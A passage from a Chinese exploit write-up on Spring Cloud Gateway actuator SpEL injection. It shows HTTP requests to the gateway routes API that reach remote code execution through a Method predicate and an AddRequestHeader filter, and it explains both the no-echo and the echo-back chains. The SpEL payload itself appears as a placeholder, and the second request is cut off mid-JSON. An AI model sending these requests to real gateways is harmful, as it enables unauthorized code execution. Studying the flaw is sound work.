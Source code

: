 那上面小结的结论是否同样适用 predicates 呢？

这里随便试一下，更改过滤器`name`参数为`Method`匹配器。

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json

{
  "id": "first_route",
  "predicates": [{
    "name": "Method",
    "args": {"_genkey_0":"payload"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

刷新路由，果然触发 RCE。

![5.1.2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-1da0bd87a26f825ffa1369764ebcafd5674bcd6d.png)

#### 2. 小结

无回显链 predicates 链确实存在，且只要 Predicates 名字合法绕过限制，就能触发RCE。

5.2 有回显利用链
----------

### 5.2.1 回显原理

用户存储的路由定义信息存在内存中，刷新路由 spel 表达式执行后，会把执行结果写入路由信息里面。  
通过查看路由信息 API 接口，就在路由信息展示中查看到 RCE 执行结果。

### 5.2.2 filters 回显链的思考

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 335

{
    "id": "first_route",
    "predicates": [],
    "filters": [{
        "name": "AddRequestHeader",
        "args": 
            {
                "name": "Result",
                "value": "payload"
```